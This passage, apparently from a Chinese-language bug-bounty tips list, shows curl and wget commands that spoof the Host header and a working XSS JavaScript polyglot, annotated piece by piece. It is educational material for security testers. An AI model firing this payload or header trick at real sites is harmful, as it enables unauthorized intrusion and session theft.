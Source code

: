 ```bash
curl -v -H "Host: localhost" https://target/
wget -d --header="Host: localhost" https://target/
```

## 23\. XSS 的 Javascript polyglot

By @s0md3v\[62\]) Source: link\[63\]

如何制作 XSS 的 Javascript polyglot？请看这个超级有用的信息图表，它是由 @s0md3v\[64\]:

![图片](assets/1710308581-e357168504e113703eef802af9ac3623.png)  

这是一个 ASCII 码版本。

```bash
-->'"/></sCript><deTailS open x=">" ontoggle=(co\u006efirm)``>

-->          Breaks comment context
'            Breaks Attribute Context
"            Breaks attribute context
/>           Closes an open tag
</sCript>    Breaks JS context
<deTailS     A less known tag
open         To eliminate user interaction required for execution
x            Dummy attribute
">"          Mimics the closing of tag
ontoggle     A less known event handler
()           Parentheses around the function
co\u006efirm "confirm" function with Unicoded 'n'
``           Backticks instead of ()
```

